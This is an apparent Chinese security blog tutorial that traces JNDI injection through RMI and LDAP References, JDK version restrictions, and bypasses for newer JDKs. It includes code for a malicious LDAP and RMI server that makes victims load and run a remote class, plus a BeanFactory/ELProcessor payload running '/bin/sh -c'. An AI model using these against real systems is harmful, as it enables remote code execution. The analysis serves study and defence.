前面的文章总结了RMI的安全性问题，而JNDI注入这类问题比RMI安全问题更常见。这篇文章分析了JNDI注入的整个流程，以及如何绕过高版本的2种方式。所有的代码放在了github上。
JNDI注入介绍
JNDI注入是BlackHat 2016的一个议题“A Journey From JNDI LDAP Manipulation To RCE”。
JNDI注入包括以下几种方法:
- JNDI配合RMI远程对象(codebase)
- JNDI Reference配合RMI
- JNDI Reference配合LDAP
此攻击的整个步骤包括以下几步:
- 服务端实例化JNDI initialContext
- initialContext初始化期间调用lookup(rmi://attacker/Obj)请求攻击者的恶意RMIServer/LDAPServer
- 恶意RMIServer/LDAPServer返回JNDI Reference
- 服务端接收到JNDI Reference后从恶意RMIServer/LDAPServer获取工厂类
- 恶意RMIServer返回的工厂类中带有static块的Java代码，造成RCE
JNDI配合RMI远程对象
原理
攻击者将一个恶意的RMI远程对象绑定在RMI Registry上，然后将编译后远程对象类放在WEB服务器上，这个codebase地址由远程服务器的java.rmi.server.codebase属性设置，供受害者RMI客户端远程加载，RMI在lookup时，会先尝试在本地CLASSPATH中获取对应的Stub类定义，并从本地加载，若本地没有，则会向远程codebase指定地址去获取恶意对象。
限制
此方式需要满足两个条件:
- 安装并配置了SecurityManager
- Java版本低于7u21、6u45，或者设置了
java.rmi.server.useCodebaseOnly=false。
官方将java.rmi.server.useCodebaseOnly的默认值由flase改成了true，在这样的情况下，Java虚拟机将只信任预先配置好的codebase，不再支持从RMI请求中获取。
JNDI Naming Reference。JDK 7u21开始，java.rmi.server.useCodebaseOnly 默认值就为true，防止RMI客户端VM从其他Codebase地址上动态加载类。然而JNDI注入中的Reference Payload并不受useCodebaseOnly影响，因为它没有用到 RMI Class loading，它最终是通过URLClassLoader加载的远程类。
JNDI Reference配合RMI
代码:
Client.java
1
2
3
4
5
6
7
8
9
10
11
12package client;
import javax.naming.Context;
import javax.naming.InitialContext;
public class CLIENT {
public static void main(String[] args) throws Exception{
String uri = "";
Context ctx = new InitialContext();
ctx.lookup(uri);
}
}Server.java
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19package server;
import com.sun.jndi.rmi.registry.ReferenceWrapper;
import javax.naming.Reference;
import java.rmi.registry.Registry;
import java.rmi.registry.LocateRegistry;
public class SERVER {
public static void main(String args[]) throws Exception {
Registry registry = LocateRegistry.createRegistry(1099);
Reference aa = new Reference("ExecTest", "ExecTest", "http://127.0.0.1:8081/");
ReferenceWrapper refObjWrapper = new ReferenceWrapper(aa);
System.out.println("Binding 'refObjWrapper' to 'rmi://127.0.0.1:1099/aa'");
registry.bind("aa", refObjWrapper);
}
}ExecTest.java
1
原理
攻击者在RMI服务绑定一个JNDI Naming Reference，受害者接收到此Reference类后在解析时，会根据指定的codebase远程地址加载Factory类，原理上并非使用RMI Class Loading机制，不受第一种方式的限制。
调用流程
从客户端lookup开始进行分析。进入客户端的lookup函数。

先跟进getURLOrDefaultInitCtx(name)，然后再跟进lookup(name)。

通过url获取到scheme，即rmi，在该函数里初始化了rmiURLContext。然后跟进lookup(name)。

在这里进入到了GenericURLContext#lookup。然后继续跟进lookup。
这里调用了RegistryImpl_Stub#lookup函数。此lookup函数的作用在前面介绍RMI安全的已经介绍过了。即发送字符串到注册中心(即服务端)。服务端会根据字符串查找对应的ReferenceWrapper对象，然后返回给客户端。继续跟进decodeObject()函数。

如果是Reference对象，就会进入getReference()，获得绑定的Reference类。然后进入NamingManager.getObjectInstance()函数。

然后跟进getObjectFactoryFromReference()函数。

在该函数中，通过factoryName:ExecTest和codebase:http://127.0.0.1:8081/加载了class，然后在末尾执行newInstance进行实例化，从而RCE。
限制
在JDK6u132、JDK7u122以及JDK8u113版本后，系统属性com.sun.jndi.rmi.object.trustURLCodebase、com.sun.jndi.cosnaming.object.trustURLCodebase默认值变为false，即不允许从远程的Codebase加载Reference工厂类。

并且在decodeObject()函数中增加了对trustURLCodebase的判断。
在JDK8u111中，即使将trustURLCodebase默认值变为false，由于在decodeObject中并没有对于trustURLCodebase的判断，依然能够成功。
JNDI Reference配合LDAP
Client.java
1
2
3
4
5
6
7
8
9
10
11
12package client;
import javax.naming.Context;
import javax.naming.InitialContext;
public class CLIENT {
public static void main(String[] args) throws Exception{
String uri = "";
Context ctx = new InitialContext();
ctx.lookup(uri);
}
}ldap_server.java
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
46
47
48
49
50
51
52
53
54
55
56
57
58
59
60
61
62
63
64
65
66
67
68
69
70
71
72
73
74
75
76
77
78
79
80
81
82
83
84
85
86
87
88
89
90
91
92
93
94
95
96
97
98
99
100
101package server;
import java.net.InetAddress;
import java.net.MalformedURLException;
import java.net.URL;
import javax.net.ServerSocketFactory;
import javax.net.SocketFactory;
import javax.net.ssl.SSLSocketFactory;
import com.unboundid.ldap.listener.InMemoryDirectoryServer;
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
import com.unboundid.ldap.listener.InMemoryListenerConfig;
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
import com.unboundid.ldap.sdk.Entry;
import com.unboundid.ldap.sdk.LDAPException;
import com.unboundid.ldap.sdk.LDAPResult;
import com.unboundid.ldap.sdk.ResultCode;
public class LdapServer {
private static final String LDAP_BASE = "dc=example,dc=com";
public static void main (String[] args) {
String url = "http://127.0.0.1:8081/#ExecTest";
int port = 1389;
try {
InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
config.setListenerConfigs(new InMemoryListenerConfig(
"listen",
InetAddress.getByName("0.0.0.0"),
port,
ServerSocketFactory.getDefault(),
SocketFactory.getDefault(),
(SSLSocketFactory) SSLSocketFactory.getDefault()));
config.addInMemoryOperationInterceptor(new OperationInterceptor(new URL(url)));
InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
System.out.println("Listening on 0.0.0.0:" + port);
ds.startListening();
}
catch ( Exception e ) {
e.printStackTrace();
}
}
private static class OperationInterceptor extends InMemoryOperationInterceptor {
private URL codebase;
/**
*
*/
public OperationInterceptor ( URL cb ) {
this.codebase = cb;
}
/**
* {@inheritDoc}
*
* @see com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor#processSearchResult(com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult)
*/
public void processSearchResult ( InMemoryInterceptedSearchResult result ) {
String base = result.getRequest().getBaseDN();
Entry e = new Entry(base);
try {
sendResult(result, base, e);
}
catch ( Exception e1 ) {
e1.printStackTrace();
}
}
protected void sendResult ( InMemoryInterceptedSearchResult result, String base, Entry e ) throws LDAPException, MalformedURLException {
URL turl = new URL(this.codebase, this.codebase.getRef().replace('.', '/').concat(".class"));
System.out.println("Send LDAP reference result for " + base + " redirecting to " + turl);
e.addAttribute("javaClassName", "Exploit");
String cbstring = this.codebase.toString();
int refPos = cbstring.indexOf('#');
if ( refPos > 0 ) {
cbstring = cbstring.substring(0, refPos);
}
e.addAttribute("javaCodeBase", cbstring);
e.addAttribute("objectClass", "javaNamingReference");
e.addAttribute("javaFactory", this.codebase.getRef());
result.sendSearchEntry(e);
result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
}
}
}
原理
除了RMI服务外，JNDI也可以对接LDAP服务，LDAP也能返回JNDI Reference对象。整个过程与上个方法类似，并且不受com.sun.jndi.rmi.object.trustCodebase等限制，适用范围更广。
限制
在Oracle JDK11.0.1、8u191、7u201、6u211之后，将com.sun.jndi.ldap.object.trustURLCodebase属性的默认值被调整为false。
流程
前面的流程与RMI一样，最终进入了PartialCompositeContext#lookup。

然后进入了ComponentContext#p_lookup。

继续跟进LdapCtx#c_lookup。

在该函数中，最终进入DirectoryManager#getObjectInstance(),后面的过程与RMI的后面一样，最终实例化。
限制
在JDK8u191之后，在使用codebase从远程loadClass时，会进行判断。

且com.sun.jndi.ldap.object.trustURLCodebase被设置为了false。

绕过高版本JDK的限制
根据以上介绍的限制，在Oracle JDK11.0.1、8u191、7u201、6u211及更高版本的JDK来说，前面提到的方式都失效了。对于存在以上漏洞但JDK版本很高的环境中，有人提到了如下2中方式进行bypass。
两种方式都很依赖受害者本地CLASSPATH中环境。
利用本地CLASSPATH中的恶意Reference Factory类
前面分析的整个过程首先是远程加载factory，然后进行实例化。但是在高版本的限制中，无法进行远程加载的时候，利用本地存在的Reference恶意类。实际上，本地不可能存在一个实例化就执行恶意代码的类。因此，看看加载完factory并实例化之后的事情。定位到NamingManager#getObjectInstance。

在前面分析到NamingManager#getObjectFactoryFromReference时，首先会进行本地factory的加载。

在通过getObjectFactoryFromReference中获取到Factory类之后，对调用其getObjectInstance函数，其中参数ref和name是可控的。
因此，在高版本如JDK8u191以上的版本上，可以在返回的Reference中指定Factory类。这个类必须在受害者目标本地的CLASSPATH中。其中该类需要满足以下条件:
- 实现
javax.naming.spi.ObjectFactory接口 - 至少存在一个getObjectInstance()方法
BeanFactory
org.apache.naming.factory.BeanFactory满足以上两个条件。它存在于Tomcat依赖包中，使用非常广泛，来看看如何利用它。首先定位到BeanFactory#getObjectInstance()函数。

可以看到在该函数中，如果传入的obj时一个ResourceRef实例，根据Reference对象的类名加载相应的类，并通过反射的方式实例化Reference所指向的任意Bean Class。

并且调用满足条件的方法，其中大概率是调用setter方法为所有属性赋值。看看满足条件的方法。

首先Reference类获取”forceString”的值，若值中存在等号(61)，则等号右边作为属性值对应的方法，左边为该方法的参数。若不含有=号，则获取该属性值的setter方法。相当于”forceString”可以为特定的属性指定setter方法一样。然后将方法和参数放入forced中，以供后续调用。
在这样的情况下，目标Bean Class必须: 1)有一个无参构造方法；2)存在能被调用的方法。
ELProcessor类
在一篇文章中提到了利用javax.el.ELProcessor类。

其中eval函数仅接受一个String参数，执行传入的EL表达式。因此，只需要传入恶意的EL表达式即可达到RCE。现在需要解决的问题是将eval()函数设置为Reference类某属性的setter方法。让其自动调用
1 | ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true, "org.apache.naming.factory.BeanFactory", null); |
根据前面的分析，x为eval()方法的参数，传入恶意的表达式。
1 | ref.add(new StringRefAddr("x", """.getClass().forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("JavaScript").eval("new java.lang.ProcessBuilder['(java.lang.String[])'](['/bin/sh','-c','open /Applications/Calculator.app']).start()")")); |
完整的payload
以RMI服务器为例：
1 | Registry registry = LocateRegistry.createRegistry(1099); |
运行之后，客户端运行代码即可弹出计算器。
在运行过程，可能需要多运行几次才能成功。在本地测试时，时而失败，时而成功。可能与EL表达式有关。
利用LDAP返回恶意的序列化对象
JNDI与LDAP之间交互，其中Java对象在LDAP目录有多种存储形式:
- Java序列化
- JNDI Reference
- Marshalled对象
- Remote Location(已弃用)
LDAP可以为存储的Java对象指定多种属性:
- javaCodeBase
- objectClass
- javaFactory
- javaSerializedData
第二种方法中利用的是LDAP服务器支持直接返回一个Java对象的序列化数据。若Java对象的javaSerializedData属性值不为空，则客户端的obj.decodeObject()会对此字段值的内容进行反序列化。定位到obj.decodeObject()。


当javaSerializedData属性存在时，首先会获取到一个classloader。然后进入obj.deserializeObject()方法。
